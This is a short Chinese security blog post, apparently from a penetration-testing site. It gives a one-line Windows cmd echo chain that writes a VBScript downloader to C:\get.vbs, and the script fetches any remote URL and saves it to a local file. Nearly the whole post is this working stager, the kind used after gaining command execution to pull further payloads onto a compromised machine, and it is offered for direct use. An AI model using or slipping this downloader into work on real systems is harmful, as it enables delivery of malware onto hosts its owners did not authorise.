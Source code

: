 +++
title = "echo 一句话写入vbs下载者"
author = "Hzllaga"
date = 2018-07-23
description = ""
categories = ["原创"]
tags = ["vbs"]
+++

![](https://cdn.wtfsec.org/img/20200223165441.png)

使用方法很简单，直接运行就可以写入了

命令写得比较阳春，其实就是一行一行写入，懒得弄转义符，所以就这样吧~

下面是命令：
{{< highlight vbs >}}
echo on error resume next >> C:\get.vbs & echo iLocal=LCase(Wscript.Arguments(1)) >> C:\get.vbs & echo iRemote=LCase(Wscript.Arguments(0)) >> C:\get.vbs & echo Set xPost=createObject("Microsoft.XMLHTTP") >> C:\get.vbs & echo xPost.Open "GET",iRemote,0 >> C:\get.vbs & echo xPost.Send() >> C:\get.vbs & echo set sGet=createObject("ADODB.Stream") >> C:\get.vbs & echo sGet.Mode=3 >> C:\get.vbs & echo sGet.Type=1 >> C:\get.vbs & echo sGet.Open() >> C:\get.vbs & echo sGet.Write xPost.ResponseBody >> C:\get.vbs & echo sGet.SaveToFile iLocal,2 >> C:\get.vbs
{{< / highlight  >}}
